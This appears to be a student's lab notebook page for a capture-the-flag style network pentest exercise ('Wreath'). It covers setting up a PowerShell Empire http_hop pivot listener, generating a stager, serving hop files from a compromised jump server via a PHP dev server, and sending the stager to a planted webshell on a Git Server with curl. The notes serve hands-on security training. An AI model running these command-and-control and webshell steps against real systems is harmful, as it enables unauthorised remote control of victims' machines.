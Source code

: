 Time to put this all into practice!

You should already have a `http_hop` listener started in either Empire or Starkiller from the last task. If you don't, take this opportunity to start one before continuing.

With the listener started there are two things we must do before we can get an agent back from the Git Server:-

- We must generate an appropriate stager for the target
- We must put the `http_hop` files into position on .200, and start a webserver to serve the files on the port we selected during the listener creation. This server must be able to execute PHP, so a PHP Debug server is ideal.


---

Let's start with generating a stager. For this we will use the `multi/launcher` stager. We already covered how to create stagers back in task 26, so you should be able to do this relatively unguided. The only option needing to be set here is the "Listener" option, which needs set to the name of the `http_hop` listener we created in the previous task:

## Empire client

Start Empire Client:

```
$ powershell-empire client
```


![[Git Server-20250103140519820.webp]]

## Starkiller

![[Git Server-20250103140607340.webp]]

If using the Empire CLI, you will be presented with a payload to copy and paste into the target's command line:

![[Git Server-20250103140856420.webp]]

If using Starkiller you can copy the payload to your clipboard by clicking on the copy button of the Actions menu for the stager in the main Stagers menu:

![[Git Server-20250103140929490.webp]]

Whichever method you chose, save the provided command somewhere and _do not_ execute it yet. We will need it once we have set up the hop files on the jumpserver.


---
## Jumpserver set up

Now let's get that jumpserver set up!

1. First of all, in the /tmp directory of the compromised webserver, create and enter a directory called `hop-USERNAME`. e.g.:

	![[Git Server-20250103141203892.webp]]

2. Transfer the contents from the `/tmp/http_hop` (or whatever you called it) directory across to this directory on the target server. A good way to do this is by zipping up the contents of the directory (`cd /tmp/http_hop && zip -r hop.zip *`), then transferring the zipfile across using one of the methods previously shown. For example, doing this with a Python HTTP server :
	![[Git Server-20250103141930263.webp]]

3. We can then unzip the zipfile on the webserver (i.e. `unzip hop.zip`):

	 ![[Git Server-20250103142317960.webp]]

> [!Note]
The output of `ls` must match up with the screenshot -- i.e. there should be a `news.php` file in your current directory, with `admin/` and_ `login/` as subdirectories

## Open the port in the firewall

Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 47000/tcp`

## Serving the files

We now need to actually serve the files on the port we chose when generating the http_hop listener (task 28). Fortunately we already know that this server has PHP installed as it serves as the backend to the main website. This means that we can use the PHP development webserver to serve our files! The syntax for this is as follows:  
`php -S 0.0.0.0:PORT &>/dev/null &`  

e.g:

![[Git Server-20250103142653235.webp]]

As shown in the screenshot, the webserver is now listening in the background on the chosen port 47000.

> [!Note]
> Remember to open up the port in the firewall if you haven't already!

This is a handy trick for when we need to serve PHP files, as our standard Python HTTP webserver is not capable of interpreting the PHP language and so cannot execute the scripts.

We now have everything we need to get this show on the road!


---

# Your job

![[Command & Control Empire Diagram.svg]]



The way this system works is:
- There is a **command server**, usually your Attacking Machine.
- This command server has a listener or number of listeners on it, waiting for connections from your agents. 
- These listeners come in various options but the most used ones are HTTP and *HTTP-Hop* mainly because they can blend into normal day-to-day traffic easier.

**HTTP-Hop**
This is a special listener because it allows you to set up a hop station should you be pivoting around a network. What this essentially does is allows us to take an entry point in the network and make use of it as a “jump” server between our command server and a compromised device that doesn’t have internet connectivity for example:

**Command Server <—–> Web Server <—-> Compromised Machine**

The next part is the **stager**.
- This is a script/command that creates our agent. 
- This comes in a number of forms but *Bash* and *Powershell* are the ones introduced in the Wreath room. 
- Once these stagers are run on your compromised machine they will create an **agent** connection back to your control server. 
- Once connected you will be able to run commands as if you were on the agent through the command server.

| <center>Actions</center>                                                        | <center>Machine</center> | <center>Commands</center>                                                                                               |       |
| ------------------------------------------------------------------------------- | ------------------------ | ----------------------------------------------------------------------------------------------------------------------- | ----- |
| Start Empire Server                                                             | Attacking Machine        | `powershell-empire server`                                                                                              |       |
| Start Empire CLI                                                                | Attacking Machine        | `powershell-empire client`                                                                                              |       |
| Setup HTTP Listener                                                             | Empire CLI               | `uselistener http`                                                                                                      |       |
| Create a listener                                                               | Empire CLI               | [[Empire - Listeners]]                                                                                                  |       |
| Setup Stager                                                                    | Empire CLI               | `usestager multi_bash`<br>`set Listener Webserver`<br>`execute`                                                         |       |
| Open firewall port                                                              | Jump box .200            | `firewall-cmd --zone=public --add-port 47000/tcp`                                                                       |       |
| Create a file on the target                                                     | Jump box .200            | `nano filename.sh`                                                                                                      |       |
| Copy the stager from Starkiller                                                 | Attacking Machine        | ![[Git Server-20250117141809885.webp]]                                                                                  |       |
| Paste it on the filename.sh and save the file.                                  | Jump box .200            |                                                                                                                         | 300]] |
| Change the filename.sh permissions                                              | Jump box .200            | `chmod +x filename.sh`                                                                                                  |       |
| Run the filename.sh                                                             | Jump box .200            | `./filename.sh`                                                                                                         |       |
| On Startkiller go to Agents                                                     | Attacking Machine        | ![[Git Server-20250117142229904.webp]]                                                                                  |       |
| Creating hop jump server                                                        | Empire CLI               | `uselistener http_hop`<br>`set Host 10.200.X.200` <br>`set Port 47000`<br>`set RedirectListener Webserver`<br>`execute` |       |
| Zip and transfer files `/tmp/http_hop` to jump box target                       | Attacking Machine        | `cd /tmp/http_hop && zip -r hop.zip`<br>`sudo python3 -m http.server 80`                                                |       |
| Download on target                                                              | Jump box .200            | `curl 10.50.X.X/hop.zip -o hop.zip unzip hop.zip`                                                                       |       |
| **IF YOU ALREADY HAVE DONE ALL THE PREVIOU STEPS DON'T NEED TO REPEAT IT**      |                          |                                                                                                                         |       |
| Create http_hop stager                                                          | Empire CLI               | `usestager multi_launcher`<br>`set Listener http_hop` <br>`execute`                                                     |       |
| Setup a PHP Server to host http_hop files                                       | Jump box .200            | `php -S 0.0.0.0:47000`                                                                                                  |       |
| Connect to `git-server` on `.150` and execute `usestager/multi_launcher` agent. | Attacking Machine        | `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=<usestager/multi_launcher payload>"`<br>                |       |
After completing the given steps, we have an agent from the Git Server in Starkiller.

![[Git Server-20250114152251549.webp]]

**Next step:** [[Empire - Modules]]

